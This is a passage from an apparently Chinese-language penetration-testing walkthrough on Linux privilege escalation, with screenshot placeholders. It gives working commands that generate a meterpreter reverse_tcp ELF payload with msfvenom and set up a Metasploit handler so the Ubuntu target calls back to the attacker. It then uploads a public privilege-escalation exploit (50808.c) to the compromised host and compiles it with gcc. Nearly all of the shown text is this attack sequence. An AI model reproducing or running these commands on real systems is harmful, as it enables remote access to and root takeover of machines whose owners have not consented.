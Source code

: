 ![image-20241017164611338](操作系统提权/image-20241017164611338.png)		

```
首先配合msf上线这个ubuntu。
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.15.141 LPORT=7777 -f elf > mshell.elf
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 192.168.15.141
set lport 7777
run
并且ubuntu执行恶意脚本。
```

![image-20241017165436153](操作系统提权/image-20241017165436153.png)	

```
将CVE漏洞提权脚本上传到对方ubuntu主机上。
upload /root/50808.c
```

![image-20241017165549928](操作系统提权/image-20241017165549928.png)	

```
把提权漏洞进行gcc编译。
gcc -o test123 50808.c
```

![image-20241017165931882](操作系统提权/image-20241017165931882.png)	
